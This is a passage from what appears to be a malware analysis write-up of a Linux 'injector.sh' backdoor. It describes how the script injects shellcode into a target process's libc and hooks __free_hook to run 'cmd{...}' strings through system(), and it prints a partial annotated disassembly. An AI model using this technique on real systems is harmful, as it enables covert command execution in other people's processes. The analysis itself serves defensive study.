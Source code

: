 ## Analyze main functionality of the Shellscript injector.sh
Full details can be taken from the refactored script above. What does it basically come down to?
1. The script is called with one parameter (PID of target process to inject backdoor shellcode into)
2. It parses the virtual memory mapping (/proc/$pid/maps) of the target process for the loaded libc library
3. The virtual addresses (VA) of the libc functions __free_hook(), system(), free() and malloc_usable_size() are calculated for the target process (these have to be dynamically resolved, due to ASLR etc.)
4. The virtual memory map is parsed for the end of an executable region in the loaded libc (to put code into)
5. The VA of the named functions are put into placeholders inside the shellcode
6. The updated shellcode is written to the executable memory region (step 4, *injection*)
7. The VA of the libc function __free_hook() is patched with the VA of the injected shellcode (*hooking* __free_hook(), so to say)

The functions __free_hook() and free() are used to free memory, that previously has been dynamically allocated during program runtime. This way, whenever such allocated memory is freed in the target process, the execution of the shellcode is triggered.
But what does the shellcode do?

## Disassembly of the (unpatched) Shellcode
*Note: The output of radare2 has been edited with additional comments for better readability.*

```
r2 -a x86 -b 64 -qc pd shellcode_unpatched.bin
            0x00000000      48b841414141.  movabs rax, 0x4141414141414141 ; VA of malloc_usable_size()
            0x0000000a      4155           push r13
            0x0000000c      49bd43434343.  movabs r13, 0x4343434343434343 ; VA of system()
            0x00000016      4154           push r12
            0x00000018      4989fc         mov r12, rdi ; rdi = first function param by linux 64 bit calling convention
            0x0000001b      55             push rbp
            0x0000001c      53             push rbx
            0x0000001d      4c89e3         mov rbx, r12 ; rbx points to first function param (which is void *ptr)
            0x00000020      52             push rdx
            0x00000021      ffd0           call rax ; malloc_usable_size()
            0x00000023      4889c5         mov rbp, rax
            0x00000026      48b844444444.  movabs rax, 0x4444444444444444 ; original VA of __free_hook()
            0x00000030      48c700000000.  mov qword [rax], 0
        ┌─> 0x00000037      4883fd05       cmp rbp, 5 ; return value of malloc_usable_size()
       ┌──< 0x0000003b      7661           jbe 0x9e ; skip shellcode magic if return value <= 5
       │╎   0x0000003d      803b63         cmp byte [rbx], 0x63 ; 'c'
      ┌───< 0x00000040      7554           jne 0x96 ; skip shellcode magic if *ptr[0] != 'c'
      ││╎   0x00000042      807b016d       cmp byte [rbx + 1], 0x6d ; 'm'
     ┌────< 0x00000046      754e           jne 0x96 ; skip shellcode magic if *ptr[1] != 'm'
     │││╎   0x00000048      807b0264       cmp byte [rbx + 2], 0x64 ; 'd'
    ┌─────< 0x0000004c      7548           jne 0x96 ; skip shellcode magic if *ptr[2] != 'd'
    ││││╎   0x0000004e      807b037b       cmp byte [rbx + 3], 0x7b ; '{
   ┌──────< 0x00000052      7542           jne 0x96 ; skip shellcode magic if *ptr[3] != '{'
   │││││╎   0x00000054      c60300         mov byte [rbx], 0
   │││││╎   0x00000057      488d7b04       lea rdi, [rbx + 4] ; let rdi point to *ptr[4], first char after '{'
   │││││╎   0x0000005b      488d55fc       lea rdx, [rbp - 4]
   │││││╎   0x0000005f      4889f8         mov rax, rdi
  ┌───────> 0x00000062      8a08           mov cl, byte [rax]
  ╎│││││╎   0x00000064      4889c3         mov rbx, rax
  ╎│││││╎   0x00000067      4889d5         mov rbp, rdx
  ╎│││││╎   0x0000006a      488d4001       lea rax, [rax + 1]
```